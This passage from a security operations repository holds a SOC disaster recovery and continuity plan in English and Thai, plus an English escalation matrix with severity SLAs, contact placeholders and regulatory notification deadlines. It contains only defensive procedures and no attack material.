| 1 | **Alert Monitoring** (SIEM) | 1 hour | 0 min | 🔴 P1 | Secondary SIEM / manual log review |
| 2 | **Incident Response** (ticketing + comms) | 30 min | 0 min | 🔴 P1 | Email + phone + spreadsheet |
| 3 | **EDR Console** | 2 hours | 0 min | 🔴 P1 | Endpoint isolation via GPO/firewall |
| 4 | **Threat Intelligence** (TIP) | 4 hours | 24 hours | 🟠 P2 | Manual IOC lookup (VirusTotal, OTX) |
| 5 | **Log Ingestion Pipeline** | 2 hours | 1 hour | 🟠 P2 | Local log buffering / syslog failover |
| 6 | **Detection Rules Engine** | 4 hours | 0 min | 🟠 P2 | Rules stored in Git (restore from repo) |
| 7 | **Dashboard / Reporting** | 8 hours | 24 hours | 🟡 P3 | Manual reports via email |
| 8 | **SOC Wiki / Knowledge Base** | 24 hours | Weekly | 🟡 P3 | Offline copies / printed SOPs |
| 9 | **Automation / SOAR** | 4 hours | 0 min | 🟠 P2 | Manual playbook execution |
| 10 | **Communication Channels** (Slack/Teams) | 30 min | 0 min | 🔴 P1 | Phone tree + personal mobile |

> **RTO** = Recovery Time Objective (max downtime allowed)
> **RPO** = Recovery Point Objective (max data loss allowed)

---

## Disaster Scenarios & Response Procedures

### Scenario 1: SIEM Down / Unavailable

```mermaid
graph TD
    A[SIEM Down] --> B{Duration?}
    B -->|< 1 hour| C[Wait for auto-recovery]
    B -->|1-4 hours| D[Activate Secondary SIEM]
    B -->|> 4 hours| E[Manual Log Review Mode]
    C --> F[Verify backlog processing]
    D --> F
    E --> G[Deploy emergency queries]
    G --> F
    F --> H[Return to normal ops]
```

| Step | Action | Owner | Notes |
|:---:|:---|:---|:---|
| 1 | Confirm SIEM is down (not a network issue) | SOC Tier 1 | Check SIEM health endpoint |
| 2 | Notify SOC Lead + SOC Engineering | On-duty analyst | Slack + phone |
| 3 | Activate secondary SIEM (if available) | SOC Engineering | Switch DNS/proxy for log forwarding |
| 4 | If no secondary: switch to **Manual Log Review Mode** | SOC Tier 2 | Use direct log access (see below) |
| 5 | Begin reviewing critical logs directly | All analysts | Focus: Firewall, AD, EDR console |
| 6 | Track alerts manually in emergency spreadsheet | SOC Tier 1 | Template: `11_Reporting_Templates/emergency_alert_tracker.xlsx` |
| 7 | Inform stakeholders of reduced visibility | SOC Lead | Use [Communication Templates](Communication_Templates.en.md) |
| 8 | Once restored: verify no events were lost | SOC Engineering | Check log timestamps for gaps |
| 9 | Process any backlogged alerts | All analysts | Prioritize P1/P2 timeframes |

**Manual Log Review Mode — Where to look:**

| Log Source | Direct Access Method | Priority Checks |
|:---|:---|:---|
| Firewall | Firewall GUI / CLI | Blocked outbound traffic, new allow rules |
| Active Directory | Event Viewer on DC | 4720 (new account), 4728 (group change), 4625 (failed logon) |
| EDR Console | EDR web portal directly | Active detections, quarantine events |
| Email Gateway | Gateway admin portal | Phishing detections, blocked attachments |
| Cloud (AWS/Azure) | Cloud console directly | IAM changes, security findings |

---

### Scenario 2: EDR Platform Down

| Step | Action | Owner |
|:---:|:---|:---|
| 1 | Confirm EDR is down (check console + agent health) | SOC Tier 1 |
| 2 | Notify SOC Lead + vendor | SOC Lead |
| 3 | Shift to **network-based detection** (IDS/IPS, firewall) | SOC Tier 2 |
| 4 | Deploy emergency GPO to block known-bad hashes | SOC Engineering |
| 5 | Increase firewall monitoring (outbound anomalies) | SOC Tier 1 |
| 6 | If > 4 hours: consider temporary host-based logging (Sysmon) | SOC Engineering |
| 7 | Once restored: run full environment scan | EDR Admin |

---

### Scenario 3: Network Outage (SOC Can't Reach Monitored Environment)

| Step | Action | Owner |
|:---:|:---|:---|
| 1 | Confirm scope of outage (partial vs full) | SOC Tier 1 |
| 2 | Contact NOC / network team for ETA | SOC Lead |
| 3 | If partial: focus monitoring on reachable segments | SOC Tier 2 |
| 4 | If full: activate **on-site SOC personnel** (if available) | SOC Manager |
| 5 | Monitor cloud environments independently | SOC Tier 2 |
| 6 | Once restored: scan for events during blackout period | All analysts |

---

### Scenario 4: SOC Infrastructure Ransomware Attack

> ⚠️ **This is the worst-case scenario.** SOC tools themselves are compromised.

| Step | Action | Owner | Within |
|:---:|:---|:---|:---:|
| 1 | **Isolate SOC network segment immediately** | SOC Engineering | **5 min** |
| 2 | Switch to **out-of-band communication** (personal mobile, pre-shared numbers) | SOC Lead | **10 min** |
| 3 | Activate external IR vendor | SOC Manager/CISO | **30 min** |
| 4 | Assess blast radius (which SOC tools are compromised?) | IR Team | **1 hour** |
| 5 | Stand up **emergency SOC** on clean infrastructure | SOC Engineering | **2 hours** |
| 6 | Restore from known-good backups (see backup schedule below) | SOC Engineering | **4 hours** |
| 7 | Rebuild compromised systems from scratch (do NOT trust cleaned images) | SOC Engineering | **24–72 hours** |
| 8 | Conduct full post-incident review | IR Lead | **1 week** |

**Emergency SOC Kit (pre-staged):**
- Clean laptop with pre-configured VPN
- Printed copy of SOPs and escalation matrix
- Portable SIEM (e.g., Security Onion on USB)
- Pre-shared phone list (not stored digitally only)
- Backup cloud accounts (separate from production)

---

### Scenario 5: Ticketing System / SOAR Down

| Step | Action | Owner |
|:---:|:---|:---|
| 1 | Confirm ticketing/SOAR is unavailable | SOC Tier 1 |
| 2 | Switch to **emergency alert tracker** (Google Sheets / Excel) | SOC All |
| 3 | Execute playbooks **manually** using this SOP repo | SOC Tier 2 |
| 4 | Track all manual actions for later entry | SOC Tier 1 |
| 5 | Once restored: backfill tickets from emergency tracker | SOC Tier 1 |

---

## Backup Schedule

| System | Backup Type | Frequency | Retention | Storage Location |
|:---|:---|:---:|:---:|:---|
| **SIEM Configuration** | Full export | Daily | 30 days | S3 / off-site NAS |
| **SIEM Data** | Incremental | Hourly | 90 days | Separate storage cluster |
| **Detection Rules** (Sigma/YARA) | Git repo | On every change | Unlimited | GitHub + local mirror |
| **SOAR Playbooks** | Export | Daily | 30 days | S3 / off-site NAS |
| **Ticketing System DB** | Full + WAL | Hourly | 30 days | Cross-region DB replica |
| **EDR Configuration** | Vendor snapshot | Weekly | 12 weeks | Cloud backup |
| **SOC Wiki / Docs** | Git repo | On every change | Unlimited | GitHub + local mirror |
| **Dashboards / Reports** | JSON export | Weekly | 90 days | S3 / off-site NAS |
| **TI Feeds / IOC DB** | Full dump | Daily | 30 days | S3 / off-site NAS |

### Backup Verification

- [ ] **Monthly**: Restore test of SIEM config backup
- [ ] **Quarterly**: Full DR drill (simulate SIEM failure + recovery)
- [ ] **Annually**: Full SOC infrastructure recovery test

---

## Communication During DR

| Priority | Channel | Use |
|:---|:---|:---|
| 🔴 Primary | **Phone tree** (see [Escalation Matrix](Escalation_Matrix.en.md)) | When all digital channels may be compromised |
| 🟠 Secondary | **Personal mobile + WhatsApp group** | If Slack/Teams is down but phones work |
| 🟡 Tertiary | **Pre-shared email on alternate provider** (e.g., Gmail) | If corporate email is down |
| 🔵 Last resort | **Physical meetup at pre-designated location** | Total infrastructure failure |

> ⚠️ **Pre-stage these channels NOW.** Don't set them up during an incident.

---

## DR Testing Schedule

| Test Type | Frequency | Duration | Participants | Pass Criteria |
|:---|:---:|:---:|:---|:---|
| **Tabletop Exercise** (DR scenario discussion) | Quarterly | 2 hours | SOC team + Management | Roles clear, procedures understood |
| **SIEM Failover Test** | Semi-annually | 4 hours | SOC Engineering | RTO met within target, no data loss |
| **Full DR Drill** (complete SOC infrastructure) | Annually | 1 day | SOC team + IT + Management | All P1 services restored within RTO |
| **Communication Test** (phone tree + backup comms) | Quarterly | 30 min | All SOC personnel | 100% reachable via backup channel |
| **Backup Restore Test** | Monthly | 2 hours | SOC Engineering | Config restored, rules validated |

---

## SOC Degradation Levels

| Level | Condition | Capability | Actions |
|:---:|:---|:---|:---|
| 🟢 **Normal** | All systems operational | Full detection + response | Normal operations |
| 🟡 **Degraded** | 1–2 secondary tools down | Partial detection, full response | Notify stakeholders, increase manual checks |
| 🟠 **Limited** | SIEM or EDR down | Significantly reduced detection | Activate manual procedures, notify management |
| 🔴 **Emergency** | Multiple critical tools down | Manual-only operations | Full DR activation, external IR support |
| ⚫ **Black** | SOC infrastructure compromised | Zero internal capability | External IR vendor takes lead |

---

## Annual Review Checklist

- [ ] Review and update all RTO/RPO targets
- [ ] Verify backup procedures are working
- [ ] Update contact lists and phone trees
- [ ] Test DR communication channels
- [ ] Conduct at least one full DR drill
- [ ] Update emergency SOC kit contents
- [ ] Review vendor contracts for IR support
- [ ] Brief all SOC personnel on DR procedures
- [ ] Update this document with lessons learned

---

## Related Documents

-   [Escalation Matrix](Escalation_Matrix.en.md) — Who to call during incidents
-   [Communication Templates](Communication_Templates.en.md) — Pre-written notifications
-   [IR Framework](Framework.en.md) — Incident response lifecycle
-   [SOC Checklists](../06_Operations_Management/SOC_Checklists.en.md) — Daily/weekly/monthly checks
-   [SLA Template](../06_Operations_Management/SLA_Template.en.md) — Service level agreements


---

## File: 05_Incident_Response/Disaster_Recovery_BCP.th.md

# SOC Disaster Recovery & Business Continuity Plan / แผน DR/BCP สำหรับ SOC

**รหัสเอกสาร**: OPS-SOP-011
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ลับ
**อัปเดตล่าสุด**: 2026-02-15

> เมื่อ SOC ล่มเอง — SIEM ล่ม, เครือข่ายขัดข้อง, ransomware โจมตีระบบของ SOC — แผนนี้บอกว่า **จะปฏิบัติงานต่ออย่างไร** และ **จะกู้คืนอย่างไร**

---

## ขอบเขต

เอกสารนี้ครอบคลุม:
- 🛡️ ระบบ SOC ล้มเหลว (SIEM, EDR, ticketing, network)
- 🔄 ขั้นตอน failover และการปฏิบัติงานแบบ manual
- 📋 ขั้นตอนการกู้คืนและลำดับความสำคัญ
- 🎯 เป้าหมาย RPO/RTO สำหรับบริการ SOC

เอกสารนี้ **ไม่** ทดแทนแผน BCP/DR ขององค์กร แต่เสริมด้วยขั้นตอนเฉพาะ SOC

---

## บริการของ SOC & RTO/RPO

| # | บริการ SOC | RTO | RPO | ลำดับ | วิธีสำรอง |
|:---:|:---|:---:|:---:|:---:|:---|
| 1 | **Alert Monitoring** (SIEM) | 1 ชม. | 0 นาที | 🔴 P1 | Secondary SIEM / ตรวจ log แบบ manual |
| 2 | **Incident Response** (ticket + สื่อสาร) | 30 นาที | 0 นาที | 🔴 P1 | Email + โทร + spreadsheet |
| 3 | **EDR Console** | 2 ชม. | 0 นาที | 🔴 P1 | Isolate endpoint ผ่าน GPO/firewall |
| 4 | **Threat Intelligence** (TIP) | 4 ชม. | 24 ชม. | 🟠 P2 | ตรวจ IOC manual (VirusTotal, OTX) |
| 5 | **Log Ingestion Pipeline** | 2 ชม. | 1 ชม. | 🟠 P2 | Buffer log ในเครื่อง / syslog failover |
| 6 | **Detection Rules Engine** | 4 ชม. | 0 นาที | 🟠 P2 | Rules เก็บใน Git (restore จาก repo) |
| 7 | **Dashboard / Reporting** | 8 ชม. | 24 ชม. | 🟡 P3 | รายงาน manual ผ่าน email |
| 8 | **SOC Wiki / Knowledge Base** | 24 ชม. | รายสัปดาห์ | 🟡 P3 | สำเนาออฟไลน์ / SOP ที่พิมพ์ |
| 9 | **Automation / SOAR** | 4 ชม. | 0 นาที | 🟠 P2 | ทำ playbook แบบ manual |
| 10 | **Communication Channels** (Slack/Teams) | 30 นาที | 0 นาที | 🔴 P1 | Phone tree + มือถือส่วนตัว |

> **RTO** = Recovery Time Objective (เวลา downtime สูงสุดที่ยอมรับได้)
> **RPO** = Recovery Point Objective (ข้อมูลที่ยอมให้สูญเสียได้สูงสุด)

---

## สถานการณ์ภัยพิบัติ & ขั้นตอนตอบสนอง

### สถานการณ์ 1: SIEM ล่ม / ใช้งานไม่ได้

```mermaid
graph TD
    A[SIEM ล่ม] --> B{ระยะเวลา?}
    B -->|< 1 ชม.| C[รอ auto-recovery]
    B -->|1-4 ชม.| D[เปิดใช้ Secondary SIEM]
    B -->|> 4 ชม.| E[โหมดตรวจ Log แบบ Manual]
    C --> F[ตรวจสอบ backlog]
    D --> F
    E --> G[Deploy emergency queries]
    G --> F
    F --> H[กลับสู่ปฏิบัติการปกติ]
```

| ขั้น | การดำเนินการ | ผู้รับผิดชอบ | หมายเหตุ |
|:---:|:---|:---|:---|
| 1 | ยืนยันว่า SIEM ล่มจริง (ไม่ใช่ปัญหา network) | SOC Tier 1 | ตรวจ health endpoint |
| 2 | แจ้ง SOC Lead + SOC Engineering | Analyst ประจำเวร | Slack + โทร |
| 3 | เปิดใช้ secondary SIEM (ถ้ามี) | SOC Engineering | เปลี่ยน DNS ส่ง log |
| 4 | ถ้าไม่มี: เปลี่ยนเป็น **โหมดตรวจ Log แบบ Manual** | SOC Tier 2 | ใช้ direct log access |
| 5 | เริ่มตรวจ critical logs โดยตรง | ทุกคน | เน้น: Firewall, AD, EDR |
| 6 | ติดตาม alert ใน emergency spreadsheet | SOC Tier 1 | Template สำรอง |
| 7 | แจ้ง stakeholders ว่า visibility ลดลง | SOC Lead | ใช้ [Communication Templates](Communication_Templates.en.md) |
| 8 | เมื่อกู้คืนแล้ว: ตรวจสอบไม่มี event หาย | SOC Engineering | ตรวจ timestamp gaps |
| 9 | ประมวลผล alert ที่ค้างอยู่ | ทุกคน | เน้น P1/P2 ก่อน |

**โหมดตรวจ Log แบบ Manual — ดูที่ไหน:**

| Log Source | วิธีเข้าถึงโดยตรง | สิ่งที่ต้องตรวจ |
|:---|:---|:---|
| Firewall | GUI / CLI ของ Firewall | Outbound ที่ถูกบล็อก, allow rules ใหม่ |
| Active Directory | Event Viewer บน DC | 4720 (สร้าง account), 4728 (เพิ่ม group) |
| EDR Console | Web portal EDR โดยตรง | Active detections, quarantine |
| Email Gateway | Admin portal ของ gateway | Phishing, attachment ที่ถูกบล็อก |
| Cloud (AWS/Azure) | Cloud console โดยตรง | IAM changes, security findings |

---

### สถานการณ์ 2: EDR Platform ล่ม

| ขั้น | การดำเนินการ | ผู้รับผิดชอบ |
|:---:|:---|:---|
| 1 | ยืนยัน EDR ล่ม (ตรวจ console + agent health) | SOC Tier 1 |
| 2 | แจ้ง SOC Lead + vendor | SOC Lead |
| 3 | เปลี่ยนไปใช้ **network-based detection** (IDS/IPS, firewall) | SOC Tier 2 |
| 4 | Deploy emergency GPO บล็อก hash ที่เป็นอันตราย | SOC Engineering |
| 5 | เพิ่มการ monitor firewall (outbound anomalies) | SOC Tier 1 |
| 6 | ถ้า > 4 ชม.: พิจารณาติดตั้ง Sysmon ชั่วคราว | SOC Engineering |
| 7 | เมื่อกู้คืนแล้ว: สแกนระบบทั้งหมด | EDR Admin |

---

### สถานการณ์ 3: Network Outage (SOC เข้าถึงระบบไม่ได้)

| ขั้น | การดำเนินการ | ผู้รับผิดชอบ |
|:---:|:---|:---|
| 1 | ยืนยันขอบเขตของ outage (บางส่วน vs ทั้งหมด) | SOC Tier 1 |
| 2 | ติดต่อ NOC / ทีมเครือข่ายเพื่อ ETA | SOC Lead |
| 3 | ถ้าบางส่วน: monitor เฉพาะ segment ที่เข้าถึงได้ | SOC Tier 2 |
| 4 | ถ้าทั้งหมด: เปิดใช้ **เจ้าหน้าที่ on-site** (ถ้ามี) | SOC Manager |
| 5 | Monitor cloud environments แยกต่างหาก | SOC Tier 2 |
| 6 | เมื่อกู้คืนแล้ว: สแกน events ช่วงที่ขาดหาย | ทุกคน |

---

### สถานการณ์ 4: SOC ถูก Ransomware โจมตี

> ⚠️ **นี่คือสถานการณ์เลวร้ายที่สุด** เครื่องมือ SOC เองถูกบุกรุก

| ขั้น | การดำเนินการ | ผู้รับผิดชอบ | ภายใน |
|:---:|:---|:---|:---:|
| 1 | **แยก SOC network segment ทันที** | SOC Engineering | **5 นาที** |
| 2 | เปลี่ยนเป็น **การสื่อสารสำรอง** (มือถือส่วนตัว) | SOC Lead | **10 นาที** |
| 3 | เปิดใช้ external IR vendor | SOC Manager/CISO | **30 นาที** |
| 4 | ประเมินขอบเขตความเสียหาย | IR Team | **1 ชม.** |
| 5 | ตั้ง **emergency SOC** บนระบบสะอาด | SOC Engineering | **2 ชม.** |
| 6 | Restore จาก backup ที่เชื่อถือได้ | SOC Engineering | **4 ชม.** |
| 7 | Rebuild ระบบที่ถูกบุกรุกตั้งแต่ต้น (ห้ามใช้ image ที่ clean แล้ว) | SOC Engineering | **24–72 ชม.** |
| 8 | ทบทวนหลังเหตุการณ์ | IR Lead | **1 สัปดาห์** |

**ชุดฉุกเฉิน SOC (เตรียมไว้ล่วงหน้า):**
- Laptop สะอาดพร้อม VPN
- SOP และ Escalation Matrix ฉบับพิมพ์
- Portable SIEM (เช่น Security Onion บน USB)
- รายชื่อโทรศัพท์ (ไม่เก็บเฉพาะในดิจิทัล)
- บัญชี cloud สำรอง (แยกจาก production)

---

### สถานการณ์ 5: Ticketing / SOAR ล่ม

| ขั้น | การดำเนินการ | ผู้รับผิดชอบ |
|:---:|:---|:---|
| 1 | ยืนยัน ticketing/SOAR ใช้งานไม่ได้ | SOC Tier 1 |
| 2 | เปลี่ยนเป็น **emergency alert tracker** (Google Sheets / Excel) | ทุกคน |
| 3 | ทำ playbook **แบบ manual** ตาม SOP repo | SOC Tier 2 |
| 4 | บันทึกทุกการดำเนินการเพื่อกรอกย้อนหลัง | SOC Tier 1 |
| 5 | เมื่อกู้คืนแล้ว: กรอก ticket จาก emergency tracker | SOC Tier 1 |

---

## ตาราง Backup

| ระบบ | ประเภท Backup | ความถี่ | เก็บนาน | ที่จัดเก็บ |
|:---|:---|:---:|:---:|:---|
| **SIEM Configuration** | Full export | ทุกวัน | 30 วัน | S3 / NAS นอกสถานที่ |
| **SIEM Data** | Incremental | ทุกชม. | 90 วัน | Storage cluster แยก |
| **Detection Rules** (Sigma/YARA) | Git repo | ทุกครั้งที่เปลี่ยน | ไม่จำกัด | GitHub + mirror ในเครื่อง |
| **SOAR Playbooks** | Export | ทุกวัน | 30 วัน | S3 / NAS นอกสถานที่ |
| **Ticketing System DB** | Full + WAL | ทุกชม. | 30 วัน | DB replica ข้ามภูมิภาค |
| **EDR Configuration** | Vendor snapshot | ทุกสัปดาห์ | 12 สัปดาห์ | Cloud backup |
| **SOC Wiki / Docs** | Git repo | ทุกครั้งที่เปลี่ยน | ไม่จำกัด | GitHub + mirror ในเครื่อง |

---

## การสื่อสารในช่วง DR

| ลำดับ | ช่องทาง | ใช้เมื่อ |
|:---|:---|:---|
| 🔴 หลัก | **Phone tree** (ดู [Escalation Matrix](Escalation_Matrix.en.md)) | เมื่อช่องทางดิจิทัลอาจถูกบุกรุก |
| 🟠 สำรอง | **มือถือส่วนตัว + WhatsApp group** | Slack/Teams ล่มแต่โทรได้ |
| 🟡 ตติยภูมิ | **Email สำรองบน provider อื่น** (เช่น Gmail) | Email องค์กรล่ม |
| 🔵 สุดท้าย | **นัดเจอตัวที่สถานที่กำหนดไว้** | ระบบล่มทั้งหมด |

> ⚠️ **เตรียมช่องทางเหล่านี้ตั้งแต่ตอนนี้** อย่ารอตั้งค่าตอนเกิดเหตุ

---

## ระดับ SOC Degradation

| ระดับ | สภาวะ | ความสามารถ | การดำเนินการ |
|:---:|:---|:---|:---|
| 🟢 **ปกติ** | ระบบทั้งหมดทำงาน | ตรวจจับ + ตอบสนองเต็มที่ | ปฏิบัติการปกติ |
| 🟡 **ลดลง** | เครื่องมือรอง 1–2 ตัวล่ม | ตรวจจับบางส่วน, ตอบสนองเต็มที่ | แจ้ง stakeholders, เพิ่ม manual |
| 🟠 **จำกัด** | SIEM หรือ EDR ล่ม | ตรวจจับลดลงมาก | เปิดใช้ขั้นตอน manual, แจ้งผู้บริหาร |
| 🔴 **ฉุกเฉิน** | เครื่องมือวิกฤตหลายตัวล่ม | ปฏิบัติการ manual เท่านั้น | DR activation เต็มรูปแบบ |
| ⚫ **Black** | ระบบ SOC ถูกบุกรุก | ไม่มีความสามารถภายใน | External IR vendor นำทีม |

---

## DR Testing Schedule

### Test Types and Frequency

| Test Type | Frequency | Duration | Participants |
|:---|:---|:---|:---|
| Tabletop | ทุก 6 เดือน | 2 ชั่วโมง | Management + IT |
| Walkthrough | ทุก 12 เดือน | 4 ชั่วโมง | All SOC + IT |
| Simulation | ทุก 12 เดือน | 1-2 วัน | SOC + IT + Business |
| Full DR test | ทุก 24 เดือน | 2-3 วัน | All stakeholders |

### RTO/RPO Matrix

| System | RTO | RPO | DR Strategy |
|:---|:---|:---|:---|
| SIEM | 4 hrs | 1 hr | Hot standby |
| Ticketing | 8 hrs | 4 hrs | Warm standby |
| Email | 2 hrs | 0 | Cloud DR |
| AD/LDAP | 1 hr | 15 min | Multi-DC replication |

### Communication Tree (DR)

| Priority | Contact | Method | Backup |
|:---|:---|:---|:---|
| 1 | CISO | Phone | SMS |
| 2 | IT Director | Phone | Email |
| 3 | SOC Manager | Chat | Phone |
| 4 | SOC Team | Mass SMS | Email |

### DR Quick Contacts

| Role | Availability |
|:---|:---|
| DR Coordinator | 24/7 |
| IT Lead | 24/7 |

## เอกสารที่เกี่ยวข้อง

-   [Escalation Matrix](Escalation_Matrix.en.md) — ใครต้องแจ้งเมื่อเกิดเหตุ
-   [Communication Templates](Communication_Templates.en.md) — แม่แบบการแจ้งเตือน
-   [IR Framework](Framework.en.md) — วงจรชีวิตการตอบสนองต่อเหตุการณ์
-   [SOC Checklists](../06_Operations_Management/SOC_Checklists.en.md) — รายการตรวจสอบ
-   [SLA Template](../06_Operations_Management/SLA_Template.en.md) — ข้อตกลงระดับบริการ


---

## File: 05_Incident_Response/Escalation_Matrix.en.md

# Escalation Matrix

**Document ID**: IR-SOP-015
**Version**: 1.0
**Classification**: Internal — Must be printed and posted in SOC
**Last Updated**: 2026-02-15

> **This is a ONE-PAGE reference.** Print it, laminate it, and keep it visible at every analyst workstation. When an incident occurs, this document tells you **WHO to call, WHEN, and HOW.**

---

## Escalation Flow

```mermaid
graph TD
    ALERT[🔔 Alert Detected] --> T1[Tier 1 Analyst]
    T1 -->|"P4/P3: Handle"| RESOLVE[Resolve & Close]
    T1 -->|"P2: Escalate 30 min"| T2[Tier 2 Analyst]
    T1 -->|"P1: Escalate IMMEDIATELY"| T2
    T2 -->|"P2: Handle"| RESOLVE
    T2 -->|"P1: Escalate 15 min"| LEAD[SOC Lead / IR Manager]
    LEAD -->|"P1: Notify 30 min"| MGMT[Management / CISO]
    LEAD -->|"Major Incident"| EXEC[Executive + Legal]
    MGMT -->|"Data Breach / Regulatory"| EXT[Regulators / Law Enforcement]

    style ALERT fill:#3b82f6,color:#fff
    style T1 fill:#22c55e,color:#fff
    style T2 fill:#f59e0b,color:#fff
    style LEAD fill:#ef4444,color:#fff
    style MGMT fill:#7c3aed,color:#fff
    style EXEC fill:#dc2626,color:#fff
    style EXT fill:#991b1b,color:#fff
```

---

## Severity Definitions (Quick Reference)

| Severity | Name | Examples | SLA (Respond) | SLA (Resolve) |
|:---:|:---|:---|:---:|:---:|
| **P1** 🔴 | **Critical** | Ransomware, active data breach, complete system compromise | **15 min** | **4 hours** |
| **P2** 🟠 | **High** | Account compromise, lateral movement, confirmed malware, exfiltration attempt | **30 min** | **8 hours** |
| **P3** 🟡 | **Medium** | Phishing (no click), policy violation, suspicious but contained activity | **2 hours** | **24 hours** |
| **P4** 🔵 | **Low** | False positive, informational, scan result, known acceptable risk | **8 hours** | **72 hours** |

---

## Escalation Matrix — Who to Contact

### 🔴 P1 Critical Incident

| Step | Action | Who | Within | Contact Method |
|:---:|:---|:---|:---:|:---|
| 1 | Detect & triage | **Tier 1 Analyst** | 0 min | — |
| 2 | Escalate to Tier 2 | **Tier 2 Analyst (on-call)** | **5 min** | Phone + Ticket |
| 3 | Notify SOC Lead | **SOC Lead** | **15 min** | Phone + Slack #incident |
| 4 | Activate IR team | **IR Manager** | **15 min** | Phone + War Room |
| 5 | Notify CISO | **CISO** | **30 min** | Phone |
| 6 | Notify executive (if data breach) | **CEO / CTO** | **1 hour** | Phone |
| 7 | Notify legal (if PDPA/regulatory) | **Legal Counsel** | **2 hours** | Phone + Email |
| 8 | Notify regulators (if required) | **DPO / Compliance** | **72 hours** | Official channel |

### 🟠 P2 High Incident

| Step | Action | Who | Within | Contact Method |
|:---:|:---|:---|:---:|:---|
| 1 | Detect & triage | **Tier 1 Analyst** | 0 min | — |
| 2 | Escalate to Tier 2 | **Tier 2 Analyst** | **30 min** | Ticket + Slack |
| 3 | Notify SOC Lead | **SOC Lead** | **1 hour** | Slack + Email |
| 4 | Update management (if trend) | **SOC Manager** | **4 hours** | Email |

### 🟡 P3 Medium Incident

| Step | Action | Who | Within | Contact Method |
|:---:|:---|:---|:---:|:---|
| 1 | Detect & triage | **Tier 1 Analyst** | 0 min | — |
| 2 | Handle or escalate to Tier 2 | **Tier 1/Tier 2** | **2 hours** | Ticket |
| 3 | Update SOC Lead (if recurring) | **SOC Lead** | **End of shift** | Shift report |

### 🔵 P4 Low Incident

| Step | Action | Who | Within | Contact Method |
|:---:|:---|:---|:---:|:---|
| 1 | Detect & triage | **Tier 1 Analyst** | — | — |
| 2 | Close or tune detection | **Tier 1 Analyst** | **8 hours** | Ticket |

---

## Contact Directory

> ⚠️ **Replace with your actual contacts.** Keep this updated monthly.

| Role | Name | Primary Phone | Secondary | Email | Availability |
|:---|:---|:---|:---|:---|:---:|
| **SOC Lead** | [Name] | [Phone] | Slack: @soc-lead | [email] | 24/7 on-call |
| **IR Manager** | [Name] | [Phone] | Slack: @ir-manager | [email] | 24/7 on-call |
| **CISO** | [Name] | [Phone] | WhatsApp | [email] | Business + on-call |
| **CTO** | [Name] | [Phone] | — | [email] | Business hours |
| **CEO** | [Name] | [Phone] | — | [email] | Via CISO |
| **Legal Counsel** | [Name] | [Phone] | — | [email] | Business hours |
| **DPO (PDPA)** | [Name] | [Phone] | — | [email] | Business hours |
| **PR / Comms** | [Name] | [Phone] | — | [email] | Business hours |
| **SOC Tier 2 (on-call)** | Rotating | See schedule | Slack: @soc-oncall | soc@company.com | 24/7 |
| **External IR vendor** | [Company] | [Phone] | — | [email] | By contract |
| **Law Enforcement** | Cyber Police | [Phone] | — | — | Business hours |

---

## Escalation Rules

### Do's ✅
- **Always escalate P1 by phone** — do NOT rely only on email or Slack
- **Start containment while escalating** — don't wait for approval on P1
- **Document everything** in the ticketing system as you go
- **Over-escalate** if unsure — it's better to escalate and be wrong than to miss a real incident
- **Use the phrase "CRITICAL INCIDENT"** in subject lines for P1 to bypass email filters

### Don'ts ❌
- **Never delay** a P1 escalation to "investigate more" — escalate first, investigate in parallel
- **Never skip levels** — always inform your direct SOC Lead before going to CISO
- **Never communicate externally** (press, regulators) without Legal/PR approval
- **Never share IOCs publicly** without SOC Lead approval
- **Never discuss incidents** on personal devices or unsecured channels

---

## Auto-Escalation Rules (SOAR)

| Condition | Auto-Action | Escalate To |
|:---|:---|:---|
| P1 alert with no analyst response in 10 min | Auto-assign + page on-call | Tier 2 + SOC Lead |
| P2 alert unacknowledged after 30 min | Auto-reassign + Slack notify | SOC Lead |
| 3+ P3 alerts from same source in 1 hour | Auto-correlate + escalate to P2 | Tier 2 |
| P1 ticket open > 2 hours without update | Auto-notify management | CISO |
| Confirmed data breach indicator | Auto-notify Legal + DPO | Legal + Compliance |

---

## After-Hours Escalation

| Time | Primary Contact | Backup |
|:---|:---|:---|
| **Business hours** (09:00–18:00) | SOC on-duty team | SOC Lead |
| **After hours** (18:00–09:00) | On-call Tier 2 | SOC Lead (phone) |
| **Weekends / Holidays** | On-call Tier 2 | SOC Lead → IR Manager |

### On-Call Rotation

| Week | Tier 2 On-Call | SOC Lead Backup |
|:---|:---|:---|
| Week 1 | Analyst A | Lead X |
| Week 2 | Analyst B | Lead Y |
| Week 3 | Analyst C | Lead X |
| Week 4 | Analyst D | Lead Y |

> 📋 Update the rotation schedule monthly. Post in Slack #soc-oncall.

---

## Communication Channels by Severity

| Channel | P1 🔴 | P2 🟠 | P3 🟡 | P4 🔵 |
|:---|:---:|:---:|:---:|:---:|
| **Phone Call** | ✅ Required | If needed | ❌ | ❌ |
| **Slack #incident** | ✅ | ✅ | ❌ | ❌ |
| **Slack #soc-alerts** | ✅ | ✅ | ✅ | ✅ |
| **Email** | ✅ (after phone) | ✅ | ✅ | ✅ |
| **War Room** (virtual/physical) | ✅ Activated | If needed | ❌ | ❌ |
| **Status Page** | If public-facing | ❌ | ❌ | ❌ |

---

## Regulatory Notification Deadlines

| Regulation | Notification Deadline | Notify To | Trigger |
|:---|:---:|:---|:---|
| **PDPA (Thailand)** | **72 hours** | Office of Personal Data Protection Committee | Personal data breach |
| **GDPR (EU)** | **72 hours** | Supervisory Authority + Data Subjects | Personal data breach |
| **PCI-DSS** | **Immediately** | Acquirer + Card Brands | Cardholder data breach |
| **SEC (US)** | **4 business days** | SEC (Form 8-K) | Material cybersecurity incident |
| **BOT (Bank of Thailand)** | **Immediately** | BOT | Financial system disruption |

---

## Related Documents

-   [Severity Matrix](Severity_Matrix.en.md) — Full severity definitions and examples
-   [Communication Templates](Communication_Templates.en.md) — Pre-written notification templates
-   [IR Framework](Framework.en.md) — Complete incident response lifecycle
-   [PDPA Incident Response](../07_Compliance_Privacy/PDPA_Incident_Response.en.md) — Thai data breach notification
-   [SOC Communication SOP](../06_Operations_Management/SOC_Communication.en.md)
-   [SLA Template](../06_Operations_Management/SLA_Template.en.md)


---

## File: 05_Incident_Response/Escalation_Matrix.th.md

# Escalation Matrix / ตารางการส่งต่อเหตุการณ์

**รหัสเอกสาร**: IR-SOP-015
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน — ต้องพิมพ์และติดในห้อง SOC
**อัปเดตล่าสุด**: 2026-02-15

